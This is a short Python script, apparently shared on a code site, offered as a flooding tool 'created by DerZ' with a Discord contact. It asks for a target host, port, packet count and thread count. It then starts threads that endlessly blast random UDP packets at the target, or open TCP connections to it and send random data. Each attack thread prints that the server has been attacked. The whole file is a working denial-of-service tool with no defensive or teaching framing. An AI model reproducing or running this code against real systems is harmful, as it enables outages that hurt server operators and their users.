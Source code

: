 #!/usr/bin/env python3
import random
import socket
import threading

print ("DerZ")                                                               

print       (" >> TOOLS CREATED BY DERZ <<")
print       (" >> DISCORD : DerZ#2861 << ")
print       (">> DON'T ABUSE MY TOOLS <<")                                   
print       (" >> DM ME IF YOU NEED HELP <<")
    
ip = str(input("  HOST/IP:"))
port = int(input(" PORT:"))
choice = str(input(" Yakin Nihh?(y/n):"))
times = int(input(" Paket:"))
threads = int(input(" Threads:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" DerZ ATTACKED THE SERVER")
		except:
			print("[!] ERROR SERVER TIME OUT")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" DerZ ATTACKED THE SERVER ")
		except:
			s.close()
			print("[*] ERROR SERVER TIME OUT")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
